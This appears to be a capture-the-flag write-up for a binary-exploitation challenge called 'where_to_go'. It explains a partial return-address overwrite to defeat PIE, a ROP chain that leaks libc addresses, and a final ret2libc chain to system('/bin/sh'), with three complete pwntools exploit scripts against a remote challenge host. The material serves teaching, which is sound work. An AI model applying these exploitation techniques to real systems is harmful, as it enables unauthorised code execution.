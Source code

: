 # where_to_go

###### This is a buffer overflow challenge, but with aslr and pie enabled.
If we inspect the binary, we find a function, which is never called. It seems, that the function outputs the main
address with ```write()```, so we could defeat pie with that. The problem is, that we don't know the address. But we
could do a **partial overwrite**. We will overwrite the return address like this ```0xXXXXXXXXYZZZ```. So the X's are
the bytes we already have, and which aren't affected by our partial overwrite. The Z's are the fuction offset which we
know. The only byte we have to bruteforce is Y. So our chance to hit the address is ```1/16```. So here is the exploit:
```python
from pwn import *

while True:
    #p = process("./where_to_go")
    p = remote("35.223.244.247", 49155)
    p.recvline()
    p.send("A"*40 + "\x99\x28")
    try:
        leak = p.recv().split()
        break
    except:
        p.close()

print(leak)
p.interactive()
```

So if we run this, we should call the leak function within seconds and get the leak. From now on it's like a normal
ret2libc buffer overflow, but we need to defeat aslr first. Sadly, we don't have the libc. So we have to leak two addresses, to get the libc with libc database. So we've to create ropchain like this:
```offset + pop_rdi + 1 + pop_rsi + read_got + write + pop_rdi + 1 + pop_rsi + write_got + write + main```
* the ```1``` is the fd for stdout
* sadly we can't control ```rdx``` (which the lengh is stored in), so we hope a value greater than 6 is in ```rdx```, so that we can print an address. So the script now looks like this:
```python
from pwn import *

while True:
    #p = process("./where_to_go",env={"LD_PRELOAD" : "./libc.so.6"})
    p = remote("35.223.244.247", 49155)
    p.recvline()
    p.send("A"*40 + "\x99\x28")
    try:
        leak = p.recv().split()
        break
    except:
        p.close()

main = u64(leak[0][:6].ljust(8, "\x00"))
base = main - 0x7da
write = base + 0x680
write_got = base + 0x200fb8
read_got = base + 0x200fc8
pop_rdi = base + 0x943
pop_rsi_r15 = base + 0x941
ret = base + 0x898

p.sendline("A"*40 + p64(ret) + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(read_got) + p64(0) + p64(write) + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(write_got) + p64(0) + p64(write) + p64(main))

leak = p.recv().split("\n")
print(leak)
p.interactive()
```
So this works! We got the leaks! We can get the libc from libc database easily. Now we can calculate the offsets and
get a shell! Now that aslr and pie is defeated, we can create our final ropchain:
```offset + pop_rdi + binsh + system```
Now, our final exploit:
```python
from pwn import *

while True:
    #p = process("./where_to_go",env={"LD_PRELOAD" : "./libc.so.6"})
    p = remote("35.223.244.247", 49155)
    p.recvline()
    p.send("A"*40 + "\x99\x28")
    try:
        leak = p.recv().split()
        break
    except:
        p.close()

main = u64(leak[0][:6].ljust(8, "\x00"))
base = main - 0x7da
write = base + 0x680
write_got = base + 0x200fb8
pop_rdi = base + 0x943
pop_rsi_r15 = base + 0x941
ret = base + 0x898

p.sendline("A"*40 + p64(ret) + p64(pop_rdi) + p64(1) + p64(pop_rsi_r15) + p64(write_got) + p64(0) + p64(write) + p64(main))

sleep(1)
leak = p.recv().split("\x00")
write_leak = u64(leak[0][7:].ljust(8, "\x00"))
libc_base = write_leak - 0x110210
system = libc_base + 0x4f550
binsh = libc_base + 0x1b3e1a

p.sendline("A"*40 + p64(pop_rdi) + p64(binsh) + p64(system))
p.interactive()
```
Cool, it works and we got a shell!